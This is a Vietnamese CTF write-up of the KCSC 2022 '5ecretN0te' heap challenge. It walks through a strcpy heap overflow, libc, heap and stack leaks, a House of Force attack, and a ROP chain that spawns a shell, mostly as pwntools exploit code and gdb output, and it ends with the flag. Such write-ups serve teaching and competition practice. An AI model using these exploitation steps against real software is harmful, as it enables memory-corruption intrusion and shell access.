# KCSC CTF 2022 - 5ecretN0te

Các bạn có thể tải chall ở repo của mình: [secretnote.zip](secretnote.zip)

# 1. Tìm lỗi

Đây là challenge về heap nên việc đầu tiên mình làm sẽ là decompile file bằng ghidra. Ta có tổng cộng 4 function là `create`, `edit`, `delete` và `show`.

Đầu tiên là hàm `create`. Ta thấy rằng `username` và `password` trước tiên được lưu lên stack, sau đó `password` sẽ được `strlen()` lấy độ dài và `strdup()` đưa vào heap. Kế tiếp sẽ `malloc(0x60)` như là 1 page để chứa username, size của password và địa chỉ trỏ tới password và chunk đó được lưu vào table tại index chỉ định.

Khi lưu địa chỉ xong thì chương trình nhảy vào hàm `insert()` để copy password, size của password vào page và lệnh `strcpy()` để copy username vào page. Một page sẽ có dạng như sau:

```gdb
----------------------- Password 1 ----------------------
| 0x405410:    0x0000000000000000    0x0000000000000021 |
| 0x405420:    0x4242424242424242    0x4242424242424242 |
------------------------- Page 1 ------------------------
| 0x405430:    0x0000000000000000    0x0000000000000071 |
| 0x405440:    0x0000000000000000    0x0000000000000000 |
| 0x405450:    0x0000000000000000    0x0000000000000000 |
| 0x405460:    0x0000000000000000    0x0000000000000000 |
| 0x405470:    0x0000000000000000    0x0000000000000000 |
| 0x405480:    0x0000000000000000    0x0000000000000000 |
| 0x405490:    0x0000000000000011    0x0000000000405420 |    <-- Size / Address
------------------------ Top chunk ----------------------
| 0x4054a0:    0x0000000000000000    0x0000000000020b61 |
---------------------------------------------------------
```

Tuy nhiên, nếu ta nhập username đủ `0x50` byte của `A` và nhập `0x10` byte của `B` cho password thì tới công chuyện luôn:

```gdb
0x7fffffffdc80:    0x4141414141414141    0x4141414141414141
0x7fffffffdc90:    0x4141414141414141    0x4141414141414141
0x7fffffffdca0:    0x4141414141414141    0x4141414141414141
0x7fffffffdcb0:    0x4141414141414141    0x4141414141414141
0x7fffffffdcc0:    0x4141414141414141    0x4141414141414141
0x7fffffffdcd0:    0x4242424242424242    0x4242424242424242
```

Đặt breakpoint ngay câu lệnh sau `fgets()` của password và kiểm tra stack, ta thấy username không có sự ngăn cách với password không. Và nếu ta `strcpy()` username trong `insert()` thì đồng nghĩa ta sẽ copy luôn username và password vào Page:

```gdb
----------------------- Password 1 ----------------------
| 0x405410:    0x0000000000000000    0x0000000000000021 |
| 0x405420:    0x4242424242424242    0x4242424242424242 |
------------------------- Page 1 ------------------------
| 0x405430:    0x000000000000000a    0x0000000000000071 |
| 0x405440:    0x4141414141414141    0x4141414141414141 |
| 0x405450:    0x4141414141414141    0x4141414141414141 |
| 0x405460:    0x4141414141414141    0x4141414141414141 |
| 0x405470:    0x4141414141414141    0x4141414141414141 |
| 0x405480:    0x4141414141414141    0x4141414141414141 |
| 0x405490:    0x4242424242424242    0x4242424242424242 |    <-- Size / Address
------------------------ Top chunk ----------------------
| 0x4054a0:    0x000000000000000a    0x0000000000020b61 |
---------------------------------------------------------
```

Và ta thay đổi size của password cũng như địa chỉ trỏ tới password --> **Heap Overflow**

Kế đến, ở hàm `edit`, chương trình cũng sẽ yêu cầu ta nhập username, length mới của password và password. Nếu length mới lớn hơn `0x100` thì sẽ dùng `malloc` thay cho `strdup`, tức là ta được `malloc()` với số size mà ta muốn, và `insert` tiếp. Ở insert này, địa chỉ password mới sẽ ghi đè địa chỉ password cũ nên ta không thể **Heap Overflow** địa chỉ password cũ được.

Ở hàm `delete`, chương trình sẽ free chunk chứa địa chỉ password trước, sau đó free Page và cuối cùng là xóa pointer khỏi table nên ta **KHÔNG CÓ** use after free.

Và cuối cùng là ở hàm `show`, chương trình sẽ in ra index, username, password length và password của địa chỉ chứa password.

# 2. Ý tưởng

Trước tiên, với khả năng thay đổi địa chỉ password, ta sẽ thay đổi địa chỉ password đó thành địa chỉ của bất kỳ @got nào và dùng `show` để leak địa chỉ ra.

Kế tiếp, khi đã có địa chỉ base của libc và khả năng thay đổi size của topchunk, ta sẽ thực thi technique tên là `House of Force` (Bạn có thể xem ở [đây](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_force.c)). Nhưng để tấn công kiểu `House of Force`, ta sẽ cần phải leak địa chỉ heap để có thể tính địa chỉ topchunk.

Để leak heap, ta sẽ ghi địa chỉ password thành địa chỉ của main arena (hoặc fastbin) có chứa địa chỉ freed chunk và leak địa chỉ đó ra. 

Do trong quá trình mình làm, ban đầu mình tính malloc 1 cái evil size để topchunk thành địa chỉ của `__free_hook`, sau đó mình `edit` tiếp để malloc chunk mới ngay tại địa chỉ `__free_hook` nhưng bị lỗi. Vì thế mình sẽ chuyển sang là leak thêm địa chỉ stack thông qua `environ()` của libc và tính địa chỉ saved rip. Sau đó thực hiện tấn công `House of Force` và tạo rop ngay saved rip để khi exit, chương trình sẽ thực hiện rop đó và tạo shell.

Tổng kết:
- Stage 1: Leak libc address
- Stage 2: Leak heap address
- Stage 3: Leak stack address
- Stage 4: House of Force

# 3. Khai thác

Trước khi khai thác, mình có viết một số functions sau để thuận tiện:

```python
def create(username, password):
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'username: ', username)
    p.sendlineafter(b'password: ', password)

def edit(idx, username, length, password):
    p.sendlineafter(b'>> ', b'2')
    p.sendlineafter(b'index: ', f'{idx}'.encode())
    p.sendlineafter(b'username: ', username)
    p.sendlineafter(b'pwLen: ', f'{length}'.encode())
    p.sendlineafter(b'password: ', password)

def delete(idx):
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'index: ', f'{idx}'.encode())

def show(idx):
    p.sendlineafter(b'>> ', b'4')
    p.sendlineafter(b'index: ', f'{idx}'.encode())
```

### Stage 1: Leak libc address

Trước tiên, ta overflow cái địa chỉ chứa password thành puts@got và dùng `show` để leak địa chỉ ra thông qua password:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x50 + flat(0x1111111111111111, exe.got['puts']))
show(0)
p.recvuntil(b'password')
puts_addr = u64(p.recvline()[:-1].split(b' : ')[1] + b'\x00\x00')
log.info('Puts address: ' + hex(puts_addr))
```

Heap sẽ trông như thế này (trước và sau `strcpy(username)`):

```gdb
------------------------ Password 1 ----------------------
| 0x1e4e010:    0x0000000000000000    0x0000000000000021 |
| 0x1e4e020:    0x1111111111111111    0x0000000000403f88 |
-------------------------- Page 1 ------------------------
| 0x1e4e030:    0x0000000000000000    0x0000000000000071 |
| 0x1e4e040:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e050:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e060:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e070:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e080:    0x0000000000000000    0x0000000000000000 |
| 0x1e4e090:    0x000000000000000b    0x0000000001e4e020 |    <-- Size / Address
------------------------- Top chunk ----------------------
| 0x1e4e0a0:    0x0000000000000000    0x0000000000020f61 |
----------------------------------------------------------
                             ↓
                      strcpy(username)
                             ↓
------------------------ Password 1 ----------------------
| 0x1e4e010:    0x0000000000000000    0x0000000000000021 |
| 0x1e4e020:    0x1111111111111111    0x0000000000403f88 |
-------------------------- Page 1 ------------------------
| 0x1e4e030:    0x0000000000000000    0x0000000000000071 |
| 0x1e4e040:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e050:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e060:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e070:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e080:    0x4141414141414141    0x4141414141414141 |
| 0x1e4e090:    0x1111111111111111    0x0000000000403f88 |    <-- Size / Address (Changed to 0x403f88)
------------------------- Top chunk ----------------------
| 0x1e4e0a0:    0x0000000000000000    0x0000000000020f61 |
----------------------------------------------------------
```

Chạy thử thì ta sẽ được như này:



Lên trang https://libc.blukat.me/ để lấy libc với địa chỉ puts được leak ra:



Do ở các challenge trước đều là libc `libc6_2.23-0ubuntu11.3_amd64` nên ở challenge này, ta cũng lấy libc đó thử xem sao.

Khi có libc, và địa chỉ puts, ta chỉ việc tính địa chỉ base của libc:

```python
libc.address = puts_addr - libc.sym['puts']
log.info('Libc base: ' + hex(libc.address))
```

### Stage 2: Leak heap address

Khi đã có libc (nhớ patch libc vào binary trước rồi debug nhé), ta debug file sau khi đã leak libc để tìm xem trong main arena có địa chỉ heap nào không:





Ta thấy trong main arena có chứa địa chỉ heap nên ta sẽ tính offset từ libc base tới địa chỉ `0x7fd6a7323b78` như ảnh trên để có thể dùng `show` để leak địa chỉ heap đó ra:

```gdb
gef➤  vmmap
...
0x00000001812000 0x00000001834000 0x00000000000000 rw- [heap]
0x007fd6a6f5f000 0x007fd6a711f000 0x00000000000000 r-x /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
0x007fd6a711f000 0x007fd6a731f000 0x000000001c0000 --- /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
...

gef➤  p/x 0x7fd6a7323b70 - 0x007fd6a6f5f000
$1 = 0x3c4b70
```

Vậy offset là `0x3c4b70`. Vì page 1 ở trên đã bị xáo trộn nên thôi ta tạo luôn page 2 cho thuận tiện việc ghi và leak:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x50 + flat(0x1111111111111111, libc.address + 0x3c4b78))
show(1)
p.recvuntil(b'password')
heap_leak = p.recvline()[:-1].split(b' : ')[1]
heap_leak = heap_leak.ljust(8, b'\x00')
heap_leak = u64(heap_leak)
log.info("Heap leak: " + hex(heap_leak))
```

Chạy lại từ đầu và debug với cái địa chỉ heap leak được:



Và ta tính offset để tìm địa chỉ base của heap:





```gdb
gef➤  vmmap
...
0x00000000404000 0x00000000405000 0x00000000004000 rw- /home/nguyenhuutri/CTF/KCSC/5ecretN0te/secretnote_patched
0x00000001f87000 0x00000001fa9000 0x00000000000000 rw- [heap]
0x007f186db53000 0x007f186dd13000 0x00000000000000 r-x /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
...

gef➤  p/x 0x0000000001f88130 - 0x00000001f87000
$1 = 0x1130
```

Vậy ta thêm đoạn code sau để tính địa chỉ base của heap:

```python
heap = heap_leak - 0x1130
log.info("Heap base: " + hex(heap))
```

### Stage 3: Leak stack address

Ở bước này, ta vẫn làm như 2 bước trên với địa chỉ cần leak là environ() của libc:



Địa chỉ leak mà ta nhận được sẽ là `0x00007ffce8a4c988`. Vậy đoạn code để leak địa chỉ stack ra là:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x50 + flat(0x1111111111111111, libc.sym['environ']))
show(2)
p.recvuntil(b'password')
stack = p.recvline()[:-1].split(b' : ')[1]
stack = stack.ljust(8, b'\x00')
stack = u64(stack)
log.info("Stack leak: " + hex(stack))
```

Chạy lại script ta được địa chỉ stack leak ra:



Mục tiêu của ta là saved rip của main nên ta sẽ debug để tính offset từ địa chỉ stack leak ra với saved rip:



Và ta thêm đoạn code này để tính saved rip của main:

```python
saved_rip = stack - 0xf0
log.info("Saved rip of main: " + hex(stack))
```

Nice! Tiếp tục bước cuối nào!

### Stage 4: House of Force

Ở bước cuối, ta cũng thực hiện tương tự như bên trên để overwrite size của topchunk thành `0xffffffffffffffff` để ta có thể thực hiện `House of Force`. Ta nhớ rằng trong `edit`, ta có thể malloc với số size ta muốn. Vậy trước tiên ta cần tính evil_size cần malloc để cho new topchunk nằm ở ngay trước saved rip của main. Công thức:

```python
<evil_size> = <desired address> - 0x20 - <current top with metadata>
```

Vậy bây giờ ta cần thay đổi size của topchunk thành `0xffffffffffffffff`:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x68 + flat(0xffffffffffffffff))
```

Kế đến, ta sẽ đi tìm offset từ heap base tới topchunk (tính luôn metadata của topchunk nha) sau khi ta đã thay đổi size của topchunk thành `0xffffffffffffffff`:

```gdb
gef➤  heap chunks
...
Chunk(addr=0x2265200, size=0x70, flags=PREV_INUSE)
    [0x0000000002265200     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x2265270, size=0xfffffffffffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)
    [0x0000000002265270     0a 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x2265270, size=0xfffffffffffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  top chunk

gef➤  vmmap
...
0x00000000404000 0x00000000405000 0x00000000004000 rw- /home/nguyenhuutri/CTF/KCSC/5ecretN0te/secretnote_patched
0x00000002264000 0x00000002286000 0x00000000000000 rw- [heap]
0x007fe27c3b5000 0x007fe27c575000 0x00000000000000 r-x /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
...

gef➤  p/x (<Address of content of topchunk> - 0x10) - 0x00000002264000
gef➤  p/x (0x0000000002265270 - 0x10) - 0x00000002264000
$1 = 0x1260

gef➤  x/10xg 0x0000000002265270 - 0x10
0x2265260:	0x4141414141414141	0xffffffffffffffff
0x2265270:	0x000000000000000a	0x0000000000000000
0x2265280:	0x0000000000000000	0x0000000000000000
0x2265290:	0x0000000000000000	0x0000000000000000
0x22652a0:	0x0000000000000000	0x0000000000000000
```

Vậy offset là `0x1260`. Kế tiếp ta sẽ tính evil_size cần malloc và `edit`:

```python
evil_size = saved_rip - 0x20 - (heap+0x1260)
edit(2, b'T'*8, evil_size, b'T'*0x10)
```

Kiểm tra với gdb để xem topchunk mới nằm ở đâu sau khi đã `insert` trong `edit`:

```gdb
gef➤  x/10xg 0x0000000001979260
0x1979260:	0x4141414141414141	0x00007ffd3ceabcf1
0x1979270:	0x5454545454545454	0x5454545454545454
0x1979280:	0x000000000000000a	0x0000000000000000
0x1979290:	0x0000000000000000	0x0000000000000000
0x19792a0:	0x0000000000000000	0x0000000000000000
```

Tuy nhiên ta lại gặp segfault ngay tại return của `edit`:



Ta thấy hàm `edit` nó tính return về size của topchunk mới. Vậy Ta sẽ chuyển target từ saved rip của `main` thành saved rip của `edit`. Tuy nhiên, thứ nhất, là ở hàm main, khi chọn exit thì chương trình sẽ thực thi `exit@plt`, không phải `ret` nên ta không thể thay đổi saved rip của `main` được. Thứ hai là ở hàm `edit` có kiểm tra canary ở cuối nên việc thay đổi saved rip sẽ làm ghi đè lên canary.

Vậy cách duy nhất là ta thay đổi saved rdi của `insert` bởi vì thứ nhất, ở cuối hàm `insert` không có kiểm tra canary. Thứ 2, lệnh `strcpy()` ở trong `insert` vừa được thực thi xong thì sẽ thoát insert ra luôn và không còn đụng tới stack của insert nữa nên ta không sợ sẽ có segfault. 

Giả sử nếu ta malloc lần 1 trong `edit` và chạy vào hàm `insert` thì dù địa chỉ của `insert` có ghi đè size của topchunk thì vẫn không sao vì địa chỉ thì rất lớn, đủ để ta malloc size lớn hơn `0x100` được nên không cần lo.

Chạy lại script và debug khi chương trình đang thực thi trong hàm `insert` để tìm saved rip:



Địa chỉ environ leak được cũng giống với environ như ảnh trên nên không có gì nghiêm trọng. Vậy offset mới sẽ là `0x290`. Đoạn code của bước 3 chỉnh lại phần tìm saved_rip là:

```python
saved_rip = stack - 0x290
log.info("Saved rip of main: " + hex(stack))
```

Vậy chạy lại script và cho dừng tại đầu hàm `insert`, sau khi đã `sub rsp, 0x20` thì ta kiểm tra stack:



Và khi thực thi tiếp tục cho tới `strcpy()`, cái size bị thay đổi thành địa chỉ nào đó:


Size của topchunk là `0x00007ffc18bf4398`, vẫn rất lớn, đủ để ta `malloc(0x200)` cho đợt sau.

Khi thực thi xong `strcpy()`, chương trình sẽ thoát `insert` luôn, không thay đổi gì stack nữa.

Vì thế ta sẽ tạo rop để malloc lần kế, nó sẽ ghi đè saved rip của `insert` và làm cho chương trình thực thi rop để lấy shell. Vậy bây giờ ta cần một vài gadget để điều khiển rdi và rsi:

```bash
$ROPgadget --binary secretnote | grep ": pop"
...
0x00000000004012d8 : pop rbx ; sub eax, 0x5d010000 ; ret
0x0000000000401e83 : pop rdi ; ret
0x0000000000401e81 : pop rsi ; pop r15 ; ret
...
````

Ta có 2 gadget là `0x0000000000401e83` và `0x0000000000401e81`. Kế đến ta tạo rop và `edit` lần nữa với size lớn hơn `0x100` để malloc và `strcpy()`, overwrite saved rip và tạo shell:

```python
payload = flat(
	0,
	0x0000000000401e81,
	0,
	0,
	0x0000000000401e83,
	next(libc.search(b'/bin/sh')),
	libc.sym['system'])
edit(2, b'm'*8, 0x200, payload)
```

Full code: [solve.py](solve.py)

# 4. Lấy cờ



Flag là `KCSC{54c162a404229e530f6517b82b597ab9}`